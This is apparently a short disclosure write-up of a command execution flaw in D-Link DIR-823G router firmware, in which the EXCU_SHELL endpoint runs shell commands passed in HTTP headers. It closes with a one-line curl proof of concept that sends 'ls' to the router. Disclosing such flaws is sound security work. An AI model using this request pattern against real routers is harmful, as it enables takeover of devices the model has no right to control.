# DIR823G_V1.0.2B05_20181207.bin Command execution vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The handler for the EXCU_SHEL path will detect the command in the request and execute it.

![](img/2.jpg#center)


## Vulnerability verify

![](img/3.jpg#center)


## POC

```
curl http://192.168.0.1/EXCU_SHELL -H 'Command1: ls' -H 'Confirm1: apply'
```
